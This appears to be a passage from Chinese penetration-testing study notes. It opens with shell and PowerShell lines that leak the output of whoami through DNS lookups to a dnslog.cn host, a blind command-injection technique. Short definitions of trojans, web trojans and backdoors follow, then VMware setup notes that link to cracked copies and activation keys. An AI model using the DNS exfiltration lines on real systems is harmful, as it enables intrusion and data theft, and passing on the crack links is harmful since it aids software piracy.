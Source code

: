 ```shell
ping `语句`.abc123.dnslog.cn
# windows 系统的 cmd 中没有 `` ，可以使用 powershel 执行以下命令
$x=whoami;  $y='.abc123.dnslog.cn'
ping $x+$y
# 但是 windows 管理员的权限执行 whoami 后会得到一个有反斜杠的结果（类似于 EGB\administrator 这样的），所以……
$xx=$x.replace('\', 'xxxx'); # 把反斜杠替换掉就好了
ping $xx'.abc123.dnslog.cn'
```

# 相关术语

*肉鸡*
	指能够随意被黑客操控的计算机

*木马*
	伪装成了正常的程序，但实际运行起来就会获取整个系统的操控权限的程序。而 *网页木马* 是伪装成了正常的网页，但一访问就会利用对方系统的漏洞将木马程序下载到对方计算机上并主动运行的网页。

*挂马*
	在别人的网站文件中放入网页木马火或将木马代码嵌入正常网页中。

*后门*
	绕过安全性操控获取程序或系统控制权的方法。一般程序员会在程序中留后门来修正程序中的缺陷，不能被其他人知道，发布时也应该删除，否则会造成安全隐患。

# 虚拟环境部署

## 概述

什么是虚拟机？

传统运行模式中，一台计算机只能同时运行一个操作系统……

但 *虚拟化* 后就不一样！

### 虚拟机运行架构

1. 寄居架构（便宜，实验环境，虚拟机软件装在个人操作系统上）
2. 原生架构（贵，生产环境，虚拟机软件直接装在硬件上，虚拟机本身即操作系统）

## VMware

[VMware Workstation虚拟机合集+激活密钥_Win+Linux_10∕11∕12∕14∕15∕16∕17 - 『逆向资源区』 - 吾爱破解 - LCG - LSG |安卓破解|病毒分析|www.52pojie.cn](https://www.52pojie.cn/thread-1804571-1-1.html)

[VMware 17 下载安装及永久激活使用教程 - 嘿笨笨熊 - 博客园 (cnblogs.com)](https://www.cnblogs.com/hellogmy/p/17253041.html)

- VMware
	- 寄居：VMware Workstation
	- 原生：VMware vSphere
- Microsoft : Hyper-V（寄居）

### FTP服务器

